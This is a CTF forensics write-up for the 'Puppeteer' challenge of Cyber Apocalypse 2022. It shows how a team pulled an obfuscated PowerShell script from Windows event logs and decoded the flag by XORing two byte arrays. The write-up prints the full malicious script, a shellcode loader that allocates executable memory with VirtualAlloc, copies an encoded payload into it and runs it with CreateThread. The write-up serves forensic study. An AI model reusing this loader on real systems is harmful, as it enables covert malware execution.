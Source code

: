 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Puppeteer Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: forensics
challenge: Puppeteer
tags: ""
date: 2022-05-21T00:00:00+00:00
last_update: 2022-05-21T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Puppeteer
> Solved By : Legend, Starrylord, Taz, thewhiteh4t

In this challenge we were given Windows Event logs files and in all these the one that most interesting were the Powershell ones.

![](https://i.imgur.com/7IQhoEs.png)

After that I used Event Viewer to look into these files and in `Microsoft-Windows-PowerShell%4Operational` found an interesting event where code was executed remotely and the description contained obfuscated powershell script.

![](https://i.imgur.com/NWIsPLL.png)

The whole script

```powershell
Creating Scriptblock text (1 of 1):
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);



for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);


ScriptBlock ID: 3f384b05-3a00-4a65-bbf7-e31b331ac923
Path: C:\sysmgr\special_orders.ps1
```

In the powershell script we have some interesting things :

```powershell
[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;

[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

[array]::Reverse($stage2);

$stage3 = $stage1 + $stage2;

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}
```

- two sets of hex arrays
- stage 2 is reversed
- stage 1 and reversed stage 2 are concatenated
- each item in stage 3 array is XORed against `0xd1`

I followed the steps and got the flag in cyberchef :

![](https://i.imgur.com/j7ZhlLr.png)

